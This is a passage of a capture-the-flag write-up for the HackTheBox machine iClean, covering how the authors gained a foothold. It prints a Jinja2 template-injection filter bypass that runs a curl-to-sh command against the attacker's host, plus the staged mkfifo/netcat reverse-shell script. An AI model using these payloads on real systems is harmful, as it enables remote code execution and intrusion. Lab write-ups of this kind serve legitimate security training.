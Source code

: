 ![](images/2024-04-06_15-20_admin_dashboard_ssti_output.png)

## Foothold

For the foothold we tried a few payload which got filtered and we ended up with the following `filter bypass` for `Jinja2` which called a `staged payload` to execute a `reverse shell`.

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass)

```c
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('curl http://10.10.14.7/x|sh')|attr('read')()}}
```

- [https://www.revshells.com/](https://www.revshells.com/)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/iClean/serve]
└─$ cat x
irm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.7 9001 >/tmp/f
```

![](images/2024-04-06_15-39_burp_suite_payload.png)